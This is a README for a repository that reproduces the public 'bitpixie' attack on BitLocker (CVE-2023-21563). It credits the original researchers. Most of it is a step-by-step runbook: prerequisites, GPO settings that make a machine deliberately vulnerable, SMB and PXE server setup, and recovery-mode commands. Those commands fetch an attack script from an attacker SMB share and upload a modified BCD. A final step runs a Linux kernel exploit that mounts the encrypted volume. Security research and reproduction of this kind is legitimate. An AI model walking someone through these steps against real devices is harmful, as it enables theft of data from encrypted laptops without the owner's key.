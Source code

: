 # Bitpixie

The [bitpixie vulnerability](https://github.com/Wack0/bitlocker-attacks?tab=readme-ov-file#bitpixie)
existed since October 2005, was discovered in August 2022 and publicly [disclosed in February 2023 by
Rairii](https://mastodon.social/@Rairii@haqueers.com/109817927808486332) after which it was assigned
[CVE-2023-21563](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-21563).

The full attach chain was demonstrated by Thomas in his [38C3 talk](https://events.ccc.de/congress/2024/hub/en/event/windows-bitlocker-screwed-without-a-screwdriver/)
which was followed up by two blog posts:

- [Windows BitLocker -- Screwed without a Screwdriver](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/)
- [On Secure Boot, TPMs, SBAT, and downgrades -- Why Microsoft hasn't fixed BitLocker yet](https://neodyme.io/en/blog/bitlocker_why_no_fix/)

This repository reproduces the original research performed by Thomas based on his talk and blog posts.
The used Linux kernel exploit ([blog](https://pwning.tech/nftables/),
[PoC](https://github.com/Notselwyn/CVE-2024-1086])) for CVE-2024-1086 was 
written by [@notselwyn](https://twitter.com/notselwyn).

Parallel to this work [Andreas Grasser](https://github.com/andigandhi/bitpixie) also 
attempted to reproduce the original research, ending up with a very similar approach.

## Pre-Requirements

BitLocker must be configured without pre-boot authentication also sometimes referred 
to as unattended/transparent mode i.e. without a PIN or a key file.

Booting in PXE mode must be possible. In particular, the UEFI firmware must have a working TCP/IP stack. If only the network boot option is disabled, some USB dongles might work around that limitation.

If you have access to the Windows environment, launch an elevated instance of `msinfo32` the entry *Automatic Device Encryption Support* should read *Meets prerequisites*.

A TPM 2.0 is needed to support the PCR7 binding
- In Windows open *Device Manager > Security Devices* and check the TPM properties
- Check in the UEFI settings, something like: *Security > Security Chip > Security Chip Selection*.
	
>[!warning]
> Changing the TPM mode will clear the stored keys, therefore:
> 1. Boot Windows, disable BitLocker: `manage-bde -protectors -disable C:`
> 2. Boot into UEFI/BIOS, enable the TPMv2.0 security chip
> 3. Boot Windows, re-enable BitLocker `manage-bde -protectors -enable C:`

Secure Boot needs to be enabled and used for integrity validation. The command below, must list exactly the PCRs `7, 11`:
```
PS> manage-bde -protectors -get c:
...
      PCR Validation Profile:
        7, 11
        (Uses Secure Boot for integrity validation)
```

> [!warning]
> If the PCR register `4` is included, this attack will not work.

>[!note]
> To make a device intentionally vulnerable a local GPO can be configured:
> 1. Temporarily suspend BitLcoker protection: `manage-bde -protectors -disable C:`
> 2. Create a GPO using `gpedit.msc`
> 	- Open *Computer Configuration > Administrative Templates > Windows Components > BitLocker Drive Encryption > Operating System Drives*
> 	- Enable *Configure TPM startup PIN and PCRs* and enter the *PCR values:* `7, 11`
> 3. Apply the GPO: `gpupdate /force`
> 4. Confirm settings: `gpresult /scope coputer /h gpo.html`
> 5. Re-enable BitLocker: `manage-bde -protectors -enable c:`
 
[KB5025885](https://support.microsoft.com/en-us/topic/kb5025885-how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) must not be installed.

Only systems using a bootloader signed with the 2011 Secure Boot certificate are vulnerable. To check this, mount the boot partition and check the signature of `EFI\Microsoft\Boot\bootmgfw.efi`. This can also be performed using [osslsigncode](https://github.com/mtrojnar/osslsigncode).

For the Linux based exploitation strategy implemented in this repository, Microsoft's 3rd-party Secure Boot certificate, used to sign the shim loader, needs to be enabled.

## Environment Setup

### Linux Initramfs Generation

An initramfs containing all needed components based on a stripped down version of [frood, an Alpine initramfs NAS](https://words.filippo.io/dispatches/frood/) can be generated with:
```
cd linux
./bitpixie build
./bitpixie qemu # optional sanity check, whether it boots at all
./bitpixie deploy
cd - 
```

### SMB Server

Start a SMB server from where the `create-bcd.bat` attack script can be downloaded from and the resulting, device-specific BCD can be uploaded to. Impacket's `smbserver.py` works great for that:

```
cd pxe && ./start-smb.sh
```

### PXE Server

Download the necessary artifacts needed and start the PXE server:
```
cd pxe
./download.sh
./start-pxe.sh eth0
```

## Attack

### Boot into Recovery Mode

Let Windows boot normally, on the logon screen hold down the *Shift* key and select the *Restart* option from the power menu.

Windows will reboot into a recovery mode. Select *Troubleshoot > Advanced Option > Command line*. If desired, select *Change keyboard layout*. When prompted for BitLocker recovery key, select *Skip this drive*.

You should now be in a command prompt within the recovery environment.

If needed, enable network support:
```
wpeutil initializenetwork
```

>[!note]
> You should see DHCP request served by `dnsmasq`.

Mount the exposed SMB share:
```
net use S: \\10.13.37.100\smb
```

Make sure you are in local temp directory:
```
cd %TEMP%
```

Copy attack script to temporary directory:
```
copy S:\create-bcd.bat .
```

Execute attacker script to generate a `BCD_modded` file:
```
.\create-bcd.bat
```

Transfer the modified boot configuration to the SMB share:
```
copy BCD_modded S:\BCD
```

> [!note]
> This file needs to be served as `Boot\BCD` via PXE.

Exit the command line and chose *Use a device* then select the option indicating PXE boot.

### Boot into Linux Environment

The device should now reboot over PXE, fail to fully load the Windows boot configuration then fall back to the served Linux environment.

>[!note]
> If you end up on a blank blue screen it might help to press *Escape* to show the Grub boot menu where you can select the Linux system.
> 
> This typically means something did not work as expected.

Login with the `root` user, no password is needed. Follow the instructions printed in the logon message. Replace `XXX` with device file representing your encrypted BitLocker volume:
```
exploit && ./mount.sh /dev/XYZ && ls mnt
```
